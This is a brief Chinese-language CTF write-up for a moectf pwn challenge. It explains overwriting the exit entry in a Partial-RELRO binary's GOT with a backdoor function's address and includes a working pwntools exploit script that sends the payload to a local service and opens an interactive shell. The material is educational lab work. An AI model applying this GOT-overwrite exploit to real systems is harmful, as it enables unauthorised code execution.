


# moectf 这是什么？GOT！

by Maple

这里程序直接读入到GOT表里面，并且保护为`Partial RELRO`,所以将`exit`的地址覆盖为`ubreachable`函数的地址就可以了，记得别覆盖`system`

```python
from pwn import *
#p = process('./pwn')
p = remote('127.0.0.1',56063)
sys = 0x401056
un = 0x401196

payload = p64(0)*2+p64(sys)+p64(0)*4+p64(un)
p.send(payload)

p.interactive()
```


|  |
| ------------------------------------------------------------ |
| ida中可以查到`system`函数的plt表地址，.GOT初始值             |

|  |
| ------------------------------------------------------------ |
| 除了system，其它都分别覆盖掉，不需要的直接用0盖掉，exit用后门函数覆盖 |

